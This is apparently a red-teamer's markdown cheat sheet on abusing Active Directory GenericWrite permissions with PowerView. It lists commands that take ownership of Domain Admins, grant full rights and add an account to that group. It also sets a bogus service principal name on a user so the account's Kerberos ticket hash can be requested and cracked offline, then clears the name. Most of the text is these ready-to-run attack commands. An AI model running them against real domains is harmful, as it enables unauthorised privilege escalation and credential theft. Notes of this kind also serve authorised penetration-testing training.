 # GenericWrite

Upload PowerView.ps1 
[PowerView Tips by Harmj0y](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)
[Harmj0y Cheatsheets](https://github.com/HarmJ0y/CheatSheets)

GenericWrite - [[PowerView-Cheatsheet]]
```powershell
# Without Bloodhound
Import-PowerView.ps1
Invoke-ACLScanner -ResolveGUIDs | ? {$_.identityreferncename -like '$target$'}
Set-DomainObjectOwner -identity 'Domain Admins' -OwnerIdentity $target
Add-DomainObjectAcl -TargetIdentity 'Domain Admins' -PrincipalIdentity $target -Rights all
Add-DomainGroupMember -Idetnity  'Domain Admins' -Members $target
# Log off and on to affect change
```

#### Over a User

GenericWrite - the [iredteam Generic requires log off and on](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces)

```powershell
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('$domain\$user', $SecPassword)
```

Then, use Set-DomainObject, optionally specifying $Cred if you are not already running a process as user:

```powershell
# The service principle name does not matter 
Set-DomainObject -Credential $Cred -Identity $currentUser -SET @{serviceprincipalname='DoesNot/MatterunlessOPSEC'}
```

After running this, you can use [Get-DomainSPNTicket](https://powersploit.readthedocs.io/en/latest/Recon/Get-DomainSPNTicket/#get-domainspnticket) as follows:

```powershell
Get-DomainSPNTicket -Credential $Cred -SPN 'Object/maria'  | fl
```

The recovered hash can be cracked offline using the tool of your choice. Cleanup of the ServicePrincipalName can be done with the Set-DomainObject command:

```powershell
# Bloodhound errorious -TargetIdentity issues
Set-DomainObject -Credential $Cred -Identity maria -Clear serviceprincipalname
```

## References

[Bloodhound](https://bloodhound.readthedocs.io/en/latest/)
[PowerView Tips by Harmj0y](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)
[Harmj0y Cheatsheets](https://github.com/HarmJ0y/CheatSheets)
[iredteam Generic requires log off and on](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces)
